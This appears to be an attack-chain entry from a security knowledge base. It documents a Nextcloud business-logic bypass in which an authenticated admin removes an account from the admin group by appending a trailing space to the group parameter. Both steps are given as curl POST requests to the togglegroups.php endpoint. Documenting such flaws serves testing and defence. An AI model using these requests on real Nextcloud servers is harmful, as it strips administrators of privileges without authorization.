

---
tags:
  - nextcloud
  - business-logic-bypass
  - authorization-bypass
  - web-application
type: attack_chain
tools: []
tactics:
  - '[[Discovery]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: low
created_at: '2024-01-01T00:00:00Z'
procedures:
  - '[[procedures/Test-Normal-Admin-Group-Removal-in-Nextcloud]]'
  - '[[procedures/Bypass-Nextcloud-Admin-Self-Removal-with-Trailing-Space]]'
step_count: 2
techniques:
  - '[[Account Manipulation]]'
updated_at: '2025-12-14T17:28:44.584Z'
description: >-
  A business logic bypass in Nextcloud's group management endpoint allowing
  authenticated admins to remove themselves or others from the admin group by
  appending a trailing space to the group parameter, evading server-side
  restrictions.
skill_level: intermediate
impact_level: low
id: 7269b850-4222-4e6b-884b-3312754c9526
validated: true
mitre_tactics:
  - '[[Discovery]]'
mitre_techniques:
  - '[[Account Manipulation]]'
---
# Nextcloud Admin Group Self-Removal Bypass via Trailing Space

Multi-stage attack chain demonstrating a business/functional logic bypass in Nextcloud's group management, allowing an authenticated admin to demote themselves or other admins from the admin group despite server-side protections.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-nextcloud-toggle-groups-normal]]
- [[commands/curl-nextcloud-admin-removal-attempt]]
- [[commands/curl-nextcloud-admin-removal-bypass]]

### Target Environment

- Nextcloud instance (web application)
- PHP-based backend
- Access to /index.php/settings/ajax/togglegroups.php endpoint
- Network access to the Nextcloud server

### Initial Access Requirements

- Valid admin credentials for authentication
- Session cookies and request token from Nextcloud login
- No prior access needed beyond authentication

## Detailed Attack Procedures

### Step 1: Test Normal Admin Group Removal
procedure: [[procedures/Test-Normal-Admin-Group-Removal-in-Nextcloud]]

**Objective**: Verify the standard behavior where attempting to remove an admin from the admin group is blocked by server-side logic.

**Instructions**: Authenticate as an admin and send a POST request to the toggle groups endpoint using standard parameters to attempt removal.

Use [[commands/curl-nextcloud-admin-removal-attempt]] to simulate the request:

```bash
curl -X POST 'http://target-nextcloud/index.php/settings/ajax/togglegroups.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: oc_session=your_session; requesttoken=your_token' \
  -d 'username=admin&group=admin'
```

**Expected Output**: Error response indicating admins cannot remove themselves.

**Success Indicators**:
- Response status: error
- Message: "Admins can't remove themself from the admin group"

### Step 2: Bypass Restriction with Trailing Space
procedure: [[procedures/Bypass-Nextcloud-Admin-Self-Removal-with-Trailing-Space]]

**Objective**: Exploit the logic bypass by appending a trailing space to the group parameter, evading the exact-match check while still processing the admin group.

**Instructions**: Send a modified POST request with a trailing space in the group parameter to successfully remove the admin from the group.

Execute [[commands/curl-nextcloud-admin-removal-bypass]]:

```bash
curl -X POST 'http://target-nextcloud/index.php/settings/ajax/togglegroups.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: oc_session=your_session; requesttoken=your_token' \
  -d 'username=admin&group=admin '
```

**Expected Output**: Success response confirming removal from the group.

**Success Indicators**:
- Response status: success
- Data includes action: remove, groupname: admin (processed without space)
- Verify in Nextcloud UI: Admin no longer in admin group

## Attack Chain Summary

### Key Achievements

1. Confirmed server-side restriction on admin self-removal
2. Bypassed restriction using parameter manipulation with trailing space
3. Achieved unauthorized demotion of admin privileges

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Manipulation]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---

*Last updated: 2024-01-01T00:00:00Z*
